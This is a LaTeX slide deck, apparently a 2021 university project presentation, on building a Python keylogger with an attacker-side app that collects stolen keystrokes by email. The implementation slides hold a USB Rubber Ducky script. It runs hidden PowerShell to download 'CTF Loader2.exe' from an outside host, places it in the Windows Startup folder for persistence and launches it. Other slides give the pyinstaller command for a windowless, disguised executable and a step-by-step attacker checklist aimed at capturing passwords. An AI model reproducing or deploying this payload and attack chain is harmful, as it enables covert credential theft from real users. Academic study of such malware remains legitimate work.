\documentclass{beamer}
%\usetheme{metropolis}	%Warsaw metropolis
%\setbeamertemplate{frame numbering}[fraction]
\setbeamertemplate{footline}[frame number]
%\useoutertheme{metropolis}
%\useinnertheme{metropolis}
\usefonttheme{metropolis}
\usecolortheme{spruce}
\setbeamercolor{background canvas}{bg=white}

\usepackage{listings}
\usepackage{multicol}

%\usepackage{multicol}
%\usepackage{tikz}
%\usetikzlibrary{automata}
%
%\tikzstyle{vertex}=[rectangle, fill=black!15]
%\tikzstyle{edge one dir}=[->, thick]
%\tikzstyle{edge two dir}=[<->, thick]

\definecolor{codegreen}{rgb}{0,0.6,0}
\definecolor{codegray}{rgb}{0.5,0.5,0.5}
\definecolor{codepurple}{rgb}{0.58,0,0.82}
\definecolor{backcolour}{rgb}{0.95,0.95,0.92}
\definecolor{lightgray}{rgb}{0.95,0.95,0.95}
\definecolor{darkgreen}{RGB}{3,125,80}

\lstset{frame=tb,
	language=Python,
	aboveskip=3mm,
	belowskip=3mm,
	showstringspaces=false,
	columns=flexible,
	basicstyle={\small\ttfamily},
	morekeywords={with, as, self},
	emph={with, as, self},
	numbers=none,
	numberstyle=\tiny\color{gray},
	keywordstyle=\color{blue},
	emphstyle=\color{blue},
	commentstyle=\color{codegreen},
	%stringstyle=\color{mauve},
	breaklines=true,
	breakatwhitespace=true,
	tabsize=3,
	backgroundcolor=\color{lightgray},
}


\begin{document}
%\metroset{block=fill}
%\metroset{sectionpage=none}
\title{Keylogger}
\author{Felmeri Zsolt\\Dr. Szántó Zoltán}
%\institute{Sapientia Erdélyi Magyar Tudományegyetem}	%{\large \textbf{some text in bold}: more text} | \\=break the line
\institute{Sapientia Hungarian University of Transylvania}
\date{2021}

\begin{frame}
\titlepage
\end{frame}

\begin{frame}{Table of contents}
\tableofcontents
\end{frame}

\section{Keylogger in general}
\begin{frame}{What is a keylogger?}

\includegraphics[width=307pt]{../images/keyloggerimg}
\end{frame}

\begin{frame}{Malware}
\begin{columns}[onlytextwidth]
	\column{0.45\textwidth}
	\only<2->{malware = malicious software
	}\\
	\only<3->{
		malware\\
		\hspace{1.75em}\rotatebox[origin=c]{180}{$\Lsh$} keylogger
	}
	\column{0.65\textwidth} \vspace{0.5em}
	\only<1->{
		
\includegraphics[scale=0.35]{../images/keylogger08132013}
	}
\end{columns}
\end{frame}

\begin{frame}[t]{Keylogger in general}
\begin{itemize}
	\item Reaches the tartget PC - infect PC
	\begin{itemize}
		\item via email, USB, website, etc.
	\end{itemize}
\end{itemize}

\includegraphics[scale=1]{../images/datatransfer}
\end{frame}

\begin{frame}[t]{Keylogger in general}
\begin{itemize}
	\item Sits in the background for most of the time - gather intel
\end{itemize}
\vspace{1.75em}

\includegraphics[scale=0.50]{../images/keyloggerbackground}
\end{frame}

\begin{frame}[t]{Keylogger in general}
\begin{itemize}
	\item For certain time periods (or always) records the available information - gather intel
	\begin{itemize}
		\item keypress, mouse movement, screenshot, audio, etc.
	\end{itemize}
\end{itemize}

\includegraphics[width=307pt, height=175pt]{../images/keyloggerrecords}
\end{frame}

\begin{frame}[t]{Keylogger in general}
\begin{itemize}
	\item Often sends the gathered data to the hacker - transmit intel
	\begin{itemize}
		\item email, tcp, ftp, etc.
	\end{itemize}
\end{itemize}
\vspace{1.7em}

\includegraphics[scale=0.19]{../images/keytransfer}
\end{frame}


\section{Requirements specification}
\begin{frame}{Requirements specification}
\begin{itemize}
	\only<1->{\item Infect PC}
	\only<2->{\item Gather intel}
	\only<3->{\item Transmit intel}
\end{itemize}
\end{frame}

\begin{frame}[t]{Requirements specification}
%\vspace{2.5em}
%
\includegraphics[scale=0.62]{../images/general keylogger}

\includegraphics[width=307pt, height=210pt]{../images/specific keylogger}
\end{frame}

\begin{frame}{Requirements specification}
\begin{itemize}
	\only<1->{\item Intercept the keystroke}
	\only<2->{\item Send gathered data}
	\only<3->{\item Send email}
	\only<4->{\item Hacker menu: screenshot, webcam picture, audio recording}
	\only<5->{\item GUI}
	\only<6->{\item Cross-platform software}
	\only<7->{\item Executable file}
	\only<8->{\item USB Rubber Ducky}
\end{itemize}
\end{frame}


\section{Architecture}
\begin{frame}[t]{Architecture}

\includegraphics[width=307pt, height=210pt]{../images/component diagram}
\end{frame}

%\begin{frame}{Architecture}
%
\includegraphics[width=307pt, height=210pt]{../images/specific keylogger}
%\end{frame}


\section{Implementation insights}
\begin{frame}[t]{Hacker side class diagram}

\includegraphics[width=307pt, height=210pt]{../images/hackerclassdiagram}
\end{frame}

\begin{frame}[fragile]{Receive email}
\begin{lstlisting}[language=Python]
with imaplib.IMAP4_SSL(self.imap_alias) as imap_conn:
	imap_conn.login(self.email_address, self.email_password)
	
	imap_conn.select('INBOX')
	result, data = imap_conn.search(None, 'UnSeen')
	id_list = data[0].decode().split()
	
	if len(id_list) > 0:
		result, data = imap_conn.fetch(id_list[-1], '(RFC822)')
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Receive email}
\begin{lstlisting}[language=Python]
if email.message_from_string(data[0][1].decode())['from'] == self.email_address:
	raw_message = email.message_from_bytes(data[0][1])
	self.get_attachments(raw_message)
	
	if os.path.isfile(os.path.join(self.temp_path, filename)):
		with open(os.path.join(self.temp_path, filename), 'r') as reader:
			with open("../logs/log.csv", "a+") as writer:
				self.logger.info('Writing data into file...')
				for line in reader.readlines():
					writer.write(line)
					if self.gui.gui_running:
						self.gui.insert_data(line.split(','))
\end{lstlisting}
\end{frame}

\begin{frame}{GUI}
\centering

\includegraphics[width=250pt, height=210pt]{../images/GUI final}
\end{frame}

\begin{frame}{Sequence diagram}

\includegraphics[width=307pt, height=180pt]{../images/startup diagram}
\end{frame}

\begin{frame}{Target side class diagram}

\includegraphics[width=307pt, height=210pt]{../images/targetclassdiagram}
\end{frame}

\begin{frame}[fragile]{Create the executable}
\only<2->{
\begin{multicols}{2}
	\begin{itemize}
		\item pyinstaller = 4.1
		\item pynput = 1.6.8
		\item zmq = 21.0.1
	\end{itemize}
\end{multicols}}
\begin{lstlisting}[language=Python]
pyinstaller --onefile -w --name ``CTF Loader2.exe'' --icon ``../images/keylogger.ico'' TargetApp.pyw
\end{lstlisting}
\only<3->{
\begin{itemize}
	\item --onefile = create one-file bundled executable
	\only<4->{\item -w = do not provide a console window for standard I/O}
	\only<5->{\item --name = name to assign to the bundled app}
	\only<6->{\item --icon = apply icon to the executable}
\end{itemize}
}
\end{frame}

\begin{frame}[fragile]{Ducky Script}
\begin{lstlisting}[language=Python]
DELAY 1000
GUI r
DELAY 200
STRING powershell saps powershell
ENTER
DELAY 200
STRING powershell -windowstyle hidden {iwr 'http://keylogger.3utilities.com:777/CTF Loader2.exe' -o 'CTF Loader2.exe';cp 'CTF Loader2.exe' 'Appdata\Roaming\Microsoft\Windows\Start Menu\Programs\Startup';saps '.\CTF Loader2.exe'}
ENTER
\end{lstlisting}
\end{frame}

\begin{frame}[fragile]{Start the server and the hacker app}
\begin{lstlisting}[language=Python]
updog -p 777
\end{lstlisting}
\begin{itemize}
	\item -p = the server starts on \textit{this} port
	\item server access: http://keylogger.3utilities.com:777
\end{itemize}

\begin{lstlisting}[language=Python]
python HackerApp.py
\end{lstlisting}
\end{frame}


\section{Tests}
\begin{frame}{Tests}
\begin{columns}
	\column{0.45\textwidth}
	\begin{itemize}
		\only<1->{\item Windows}
		\only<2->{\item Linux}
		\only<3->{\item Mac}
	\end{itemize}
	\column{0.65\textwidth}
	\only<1->{
\includegraphics[scale=0.05]{../images/windows10img} \hspace{2em}}
	\only<2->{
\includegraphics[scale=0.05]{../images/linuximg}\\ \hspace{2.5em}}
	\only<3->{
\includegraphics[scale=0.55]{../images/macosimg}}
\end{columns}
\end{frame}

\begin{frame}{Test on virtual/real machines}
\begin{itemize}
	\item Windows 10
	\item Kali Linux
	\item Mac OS Catalina 10.15 (VM)
\end{itemize}
\vspace{2em}
\only<2->{What was my aim?}
\only<3->{
\begin{itemize}
	\item to intercept the user's password
	\begin{itemize}
		\item success on Linux
	\end{itemize}
\end{itemize}
}
\end{frame}


\section{Conclusion}
\begin{frame}{Attacker steps}
\begin{itemize}
	\item create an executable
	\item create a USB Rubber Ducky
	\item start the server
	\item start the Hacker App
	\item send the executable to the Target
	\item wait for the connection
\end{itemize}
\end{frame}

\end{document}